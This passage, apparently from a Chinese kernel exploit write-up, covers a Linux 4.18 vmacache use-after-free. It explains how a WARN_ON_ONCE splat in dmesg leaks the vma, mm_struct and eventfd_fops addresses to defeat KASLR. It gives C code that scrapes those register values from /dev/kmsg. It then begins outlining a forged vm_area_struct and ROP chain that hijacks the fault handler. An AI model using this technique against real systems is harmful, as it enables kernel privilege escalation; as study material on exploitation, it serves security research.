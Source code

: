 我们来看4.18的vmacache_find函数<br>[![](https://p2.ssl.qhimg.com/t0180a96ce519b9a53a.jpg)](https://p2.ssl.qhimg.com/t0180a96ce519b9a53a.jpg)首先查看vma是否为null，因为我门之前的一系列工作，vma非空。之后warn_on_once,因为我们的bpfmap的申请已经把整页清零，所以这里一定会触发WARN_ON_ONCE(),仅会在第一次触发时打印调试信息，并且继续执行。因此这里的vma仅仅会返回null，并且回到红黑树查找，并不会将系统崩溃。如此，我们可以获得dmesg的各种调试信息。

vma的地址在rax中，mm_struct的地址位于rdi中，同时还有r8中泄漏的eventfd_fops用来绕过kaslr。

```
while (1) `{`
    char *ptr;
    int res = read(kmsg_fd, buf, sizeof(buf)-1);
    if (res &lt;= 0) err(1, "unexpected kmsg end");
    buf[res] = '';
    if (state == 0 &amp;&amp; strstr(buf, "WARNING: ") &amp;&amp; strstr(buf, " vmacache_find+")) `{`
        state = 1;
        printf("got WARNINGn");
    `}`
    if (state == 1 &amp;&amp; (ptr = strstr(buf, "RSP: 0018:"))) `{`
        rsp = strtoul(ptr+10, NULL, 16);
        printf("got RSP line: 0x%lxn", rsp);
    `}`
    if (state == 1 &amp;&amp; (ptr = strstr(buf, "RAX: "))) `{`
        vma_kaddr = strtoul(ptr+5, NULL, 16);
        printf("got RAX line: 0x%lxn", vma_kaddr);
    `}`
    if (state == 1 &amp;&amp; (ptr = strstr(buf, "RDI: "))) `{`
        mm = strtoul(ptr+5, NULL, 16);
        printf("got RDI line: 0x%lxn", mm);
    `}`
    if (state == 1 &amp;&amp; strstr(buf, "RIP: 0010:copy_user_generic_unrolled")) `{`
        state = 2;
        printf("reached WARNING part 2n");
    `}`
    if (state == 2 &amp;&amp; (ptr = strstr(buf, "R08: "))) `{`
        eventfd_fops = strtoul(ptr+5, NULL, 16);
        printf("got R8 line: 0x%lxn", eventfd_fops);
        state = 3;
    `}`
    if (state &gt; 0 &amp;&amp; strstr(buf, "---[ end trace"))
        break;
`}`
```

### <a class="reference-link" name="rop%20chain"></a>rop chain

利用我们之前通过dmesg泄漏的地址，最终我们需要伪造一个vma结构，其中的几个关键点是：vm_start和vm_end,vm_start必须设置0x7fffffffd000或者是随便一块没有被映射的区域，这样我们在解应用这块区域去触发页错误的时候，我们会找到我们伪造的vma。

第二个关键点是vm_ops，我们将会在子进程中调用eventfd来阻塞，直到我们在将fake vma写入到我们的bpf之后，在阻塞完毕之后，主进程再次阻塞。这个时候我们的子进程解引用一个没有建立页表映射的内存位置，触发缺页异常。因为我们之前已经伪造了vm_start，这个时候我们会触发 __do_fault函数，在其中调用我们伪造的vma的vm_ops的falut函数。<br>
我们仔细来看伪造的vm_area_struct和payload。
